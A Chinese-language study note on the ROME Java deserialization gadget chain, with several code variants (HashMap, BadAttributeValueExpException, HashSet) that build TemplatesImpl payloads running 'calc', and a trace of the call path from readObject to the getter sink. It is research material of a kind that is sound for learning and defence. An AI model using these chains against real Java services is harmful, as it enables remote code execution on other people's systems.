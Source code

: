 # ROME

## 手写

```java
public Object getObject ( String command ) throws Exception {
        Object o = Gadgets.createTemplatesImpl("calc");
        ObjectBean delegate = new ObjectBean(Templates.class, o);
        ToStringBean toStringBean = new ToStringBean(Templates.class, o);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        Reflections.setFieldValue(delegate,"_equalsBean",equalsBean);
        return Gadgets.makeMap(delegate, delegate);
    }
```

假如我们使用`BadAttributeValueExpException`来触发是不是也可以

```java
public Object getObject(String command) throws Exception {
        Object o = Gadgets.createTemplatesImpl("calc");
        ToStringBean toStringBean = new ToStringBean(Templates.class, o);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        BadAttributeValueExpException expException = new BadAttributeValueExpException("dem0");
        Reflections.setFieldValue(expException,"val",equalsBean);
        return expException;
    }
```

简化一下

```java
Object o = Gadgets.createTemplatesImpl("calc");
ToStringBean toStringBean = new ToStringBean(Templates.class, o);
EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
HashMap o1 = Gadgets.makeMap(equalsBean, "o");
```

有一个想法 如果没有hashmap 这里还能触发吗？使用hashset。 本质上是一样的，没有区别

```java
        Object o = Gadgets.createTemplatesImpl("calc");
        ToStringBean toStringBean = new ToStringBean(Templates.class, o);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        HashSet map = new HashSet(1);
        map.add("foo");
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }

        Reflections.setAccessible(f);
        HashMap innimpl = (HashMap) f.get(map);

        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        Reflections.setAccessible(f2);
        Object[] array = (Object[]) f2.get(innimpl);

        Object node = array[0];
        if(node == null){
            node = array[1];
        }

        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }

        Reflections.setAccessible(keyField);
        keyField.set(node, equalsBean);
        byte[] ser = Serializer.serialize(map);
        Deserializer.deserialize(ser);
```



## 分析

![image-20220513082004576](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513082004576.png)

hashmap#readobject == > ObjectBean#hashcode

![image-20220513082041477](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513082041477.png) 

EqualsBead#beanHashCode`这个中间需要包裹一下ObjectBean(主要是把_equalsBean#_obj变成toString )`可以发射实现 == > ToStringBean#toString

![image-20220513082114248](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513082114248.png)

![image-20220513082211859](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513082211859.png)

ToStringBean#toString ==> ToString#toString(prefix)

![image-20220513082335074](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513082335074.png)

调用getter方法

```
 TemplatesImpl.getOutputProperties()
 NativeMethodAccessorImpl.invoke0(Method, Object, Object[])
 NativeMethodAccessorImpl.invoke(Object, Object[])
 DelegatingMethodAccessorImpl.invoke(Object, Object[])
```

当然这里如果可以直接触发toString的话，可以减少其中的步骤(`BadAttributeValueExpException`之后又一个可以触发toString触发的起点)。

## 拓展

但是我们发现`equalBean的equals`方法其实也是可以触发的。

![image-20220513084226030](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513084226030.png)

## 总结

- kick-off gadget：`java.util.HashMap#readObject()`
- sink gadget：`com.sun.syndication.feed.impl.ToStringBean#toString()`
- chain gadget：`com.sun.syndication.feed.impl.ObjectBean#toString()`